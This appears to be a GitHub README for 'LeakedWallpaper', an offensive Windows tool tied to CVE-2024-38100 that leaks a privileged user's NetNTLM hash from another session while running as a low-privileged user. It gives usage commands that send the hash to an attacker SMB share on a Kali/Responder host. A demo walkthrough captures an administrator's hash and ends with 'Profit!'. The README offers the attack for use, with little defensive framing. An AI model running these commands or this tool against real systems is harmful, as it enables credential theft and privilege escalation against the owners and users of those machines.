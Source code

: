 # Leaked Wallpaper
This is a privilege escalation tool (fixed with CVE-2024-38100 in KB5040434) that allows us to leak a user's NetNTLM hash from any session on the computer, even if we are working from a low-privileged user.

# Usage

```shell
.\LeakedWallpaper.exe <session> \\<KALI IP>\c$\1.jpg [-downgrade]

# Example
  .\LeakedWallpaper.exe 1 \\172.16.0.5\c$\1.jpg -downgrade
```

# Demo
## Video
https://youtu.be/InyrqNeaZfQ

If blocked, see [demo.mkv](https://github.com/MzHmO/LeakedWallpaper/blob/main/demo.mkv)

## Photos
Imagine we have two sessions on the host:
- administrator is a privileged account, its NetNTLM hash is what we want to get
- exploit is a low-privileged account, we are working from it.

Current session id: 2
Target session id: 1
![изображение](https://github.com/user-attachments/assets/c1185c7c-5b9b-490d-ba51-10e54fc0e819)

Responder IP: 172.16.0.5
Windows IP: 172.16.0.2
![изображение](https://github.com/user-attachments/assets/46ab4c8b-0563-4f53-ac2c-8f4bb9849200)

Let's get administrator NetNTLM-hash with the tool!
```shell
.\LeakedWallpaper 1 \\172.16.0.5\c$\1.jpg
```

Profit!
![изображение](https://github.com/user-attachments/assets/2aff56df-189f-44cd-85ce-ef3c4437710c)
